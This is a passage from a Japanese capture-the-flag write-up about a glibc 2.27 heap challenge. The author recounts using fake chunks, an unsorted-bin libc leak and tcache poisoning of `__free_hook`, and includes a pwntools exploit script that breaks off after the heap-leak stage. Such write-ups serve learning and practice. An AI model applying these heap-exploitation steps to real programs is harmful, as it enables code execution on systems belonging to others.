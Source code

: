 ## 感想

長かった、チャレンジ開始2日目ぐらいのお題にしようと思ったが、Writeupを読んでもfreeを連発していたり、呼吸をするように偽装チャンクを生成したりしていて意味がわからず1時間を無にして泣きそうになっていた。問題をこなしていくにつれて読める範囲が広がっていきとうとう解くことが出来た、嬉しい。
実は0x420バイト以上の大きい偽装チャンクをfreeした際のUnsorted Bin経由のlibc leakを最初試したが、libc leakまで出来たところで最後の`__free_hook`書き換えのtcache poisoningに失敗したので(これを利用した攻撃は可能で私のコードかチャンクの構成法が悪い)その原因を暇があったら探りたい

## 追記

チャンクのサイズを上手く設定してtcacheを空にしてからチャンク生成をしたらクソデカいサイズのチャンクを一発でUnsorted Binに送る方法でもなんか上手く通りました

```python
from pwn import process, ELF, p64, u64


def _select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


def add(s, data=b"junk"):
    _select(s, b"1")
    s.recvuntil(b"Input memo > ")
    s.sendline(data)


def show(s):
    _select(s, b"2")
    return s.recvline().rstrip()


def delete(s):
    _select(s, b"3")


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    s = process("./one", env={"LD_PRELOAD": "./libc-2.27.so"})

    elf = ELF("./one")
    libc = ELF("./libc-2.27.so")

    arena_libc = 0x3ebc40
    free_hook_libc = libc.symbols["__free_hook"]
    system_libc = libc.symbols["system"]

    # heap leak
    add(s, p64(0) + p64(0x91))

    for _ in range(6):
        delete(s)
    heap_addr = u64(show(s).ljust(8, b"\x00"))
    print(hex(heap_addr))

    add(s, p64(0))  # tcache(0x50): A -> null
    add(s)  # tcache(0x50) is empty

```